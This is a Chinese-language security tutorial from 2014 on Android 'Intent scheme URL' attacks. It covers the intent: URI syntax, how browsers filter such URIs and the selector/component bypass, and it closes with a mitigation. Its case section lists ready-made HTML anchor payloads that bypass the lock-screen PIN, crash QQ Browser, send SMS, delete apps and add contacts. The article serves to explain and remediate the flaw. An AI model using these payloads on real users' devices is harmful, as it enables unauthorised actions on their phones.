


#一.  Intent scheme URL attack

---

**Author:瘦蛟舞**

**Create:20140824**

##1.1  Android Intents with Chrome

Android有一个很少人知道的特性可以通过web页面发送intent来启动apps。以前通过网页启动app是通过设置iframe的src属性，例如：<iframe src="paulsawesomeapp://page1"> </iframe>。此方法适用version 18或者更早版本。其他android浏览器也适用。
这个功能在安卓chrome 浏览器version 25之后版本发生了改变。不能在通过设置iframe标签的src属性来启动app了。取而代之的是你应该通过自定义scheme实现用户手势启动app或者使用本文描述的“intent:”语法。

###1.1.1  基本语法

“最佳实践”是构造一个intent插入网页中使用户能够登录app。这为您提供了更多的灵活性在控制应用程序是如何启动，包括传通过Intent Extras传递额外信息。
intent-based URI基本语法如下：

	intent:
	   HOST/URI-path // Optional host
	   #Intent;
	      package=[string];
	      action=[string];
	      category=[string];
	      component=[string];
	      scheme=[string];
	   end;

语法细节见源码Android source

 
 
###1.1.2  简单举例

例子是一个intent登陆应用“Zxing barcode scanner”，语法如下：

	intent:
	   //scan/
	   #Intent;
	      package=com.google.zxing.client.android;
	      scheme=zxing;
	   end;

设置a标签发href属性：

	<a href="intent://scan/#Intent;scheme=zxing;package=com.google.zxing.client.android;end"> Take a QR code </a>

Package和host定义在配置文件中Android Zxing Manifest

###1.1.3  注意事项

如果调用activity的intent包含extras，同样可以包含这些。(不支持序列化)

Activity只有配置了category filter才有被android.intent.category.BROWSABLE通过这种方式在浏览器中打开，因为这样表明其是安全的。

###1.1.4  另请参阅

* Android Intents and Intent Filters
* Android Activities

##1.2  利用思路
 	
在Android上的Intent-based攻击很普遍，这种攻击轻则导致应用程序崩溃，重则可能演变提权漏洞。当然，通过静态特征匹配，Intent-Based的恶意样本还是很容易被识别出来的。
然而最近出现了一种基于Android Browser的攻击手段——Intent Scheme URLs攻击。这种攻击方式利用了浏览器保护措施的不足，通过浏览器作为桥梁间接实现Intend-Based攻击。相比于普通Intend-Based攻击，这种方式极具隐蔽性，而且由于恶意代码隐藏WebPage中，传统的特征匹配完全不起作用。除此之外，这种攻击还能直接访问跟浏览器自身的组件（无论是公开还是私有）和私有文件，比如cookie文件，进而导致用户机密信息的泄露。

##1.3  Intent scheme URL的用法

看一下Intent Scheme URL的用法。

	  

从用法上看，还是很好理解的，这里的代码等价于如下Java代码：

	Intent intent = new Intent("myaction");  
	intent.setData(Uri.parse("mydata"));  
	intent.setType("text/plain");  

再看一个例子：

	intent://foobar/#Intent;action=myaction;type=text/plain;S.xyz=123;i.abc=678;end  

上面的语句，等价于如下Java代码：

	Intent intent = new Intent("myaction");  
	intent.setData(Uri.pase("//foobar/"));  
	intent.putExtra("xyz", "123");  
	intent.putExtra("abc", 678);  

其中S代表String类型的key-value，i代表int类型的key-value。
源码中提供了Intent.parseUri(String uri)静态方法，通过这个方法可以直接解析uri，如果想更一步了解其中的语法，可以查看官方源码。

##1.4  Intent scheme URI的解析及过滤

如果浏览器支持Intent Scheme URI语法，一般会分三个步骤进行处理：

* 利用Intent.parseUri解析uri，获取原始的intent对象；
* 对intent对象设置过滤规则，不同的浏览器有不同的策略，后面会详细介绍；
* 通过Context.startActivityIfNeeded或者Context.startActivity发送intent；

其中步骤2起关键作用，过滤规则缺失或者存在缺陷都会导致Intent Schem URL攻击。

关键函数

	Intent.parseUri()

绕过

	Intent.setComponent(null);

使用sel;

##1.5  乌云案例

http://www.wooyun.org/bugs/wooyun-2014-073875 
http://www.wooyun.org/bugs/wooyun-2014-067798 

某浏览器对此支持非常好
	
	<a href="intent:#Intent;action=android.settings.SETTINGS;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;end">
	   设置绕过Pin码（android 3.0-4.3）
	</a> 
 

	<a href="intent:#Intent;component=com.tencent.mtt/com.tencent.mtt.debug.DbgMemWatch;end">
	    qq浏览器崩溃
	</a> 
 
	<a href="intent:http://drops.wooyun.org/webview.html#Intent;component=com.android.browser/com.android.browser.BrowserActivity;end">
	    打开原生浏览器
	</a> 
 
	<a href="intent:smsto:10000#Intent;action=android.intent.action.SENDTO;end">
	   发送短信
	</a> 
	
	<a href="intent:#Intent;action=android.media.action.STILL_IMAGE_CAMERA;end">
	   打开相机
	</a> 
	
	<a href="intent:package:org.wooyun.hiwooyun#Intent;action=android.intent.action.DELETE;end">
	   删除应用
	</a> 
	
	<a href="intent:#Intent;action=android.intent.action.INSERT_OR_EDIT;S.name=magic;S.phone=+8610000;i.phone_type=2;type=vnd.android.cursor.item/person;end">
	    添加联系人
	</a> 

##1.6  修复

通过以上漏洞的描述，总结得出一种相对比较安全的Intent Filter方法，代码如下：

	// convert intent scheme URL to intent object  
	Intent intent = Intent.parseUri(uri);  
	// forbid launching activities without BROWSABLE category  
	intent.addCategory("android.intent.category.BROWSABLE");  
	// forbid explicit call  
	intent.setComponent(null);  
	// forbid intent with selector intent  
	intent.setSelector(null);  
	// start the activity by the intent  
	context.startActivityIfNeeded(intent, -1);  

##1.7 参考

http://www.mbsd.jp/Whitepaper/IntentScheme.pdf
http://blog.csdn.net/l173864930/article/details/36951805
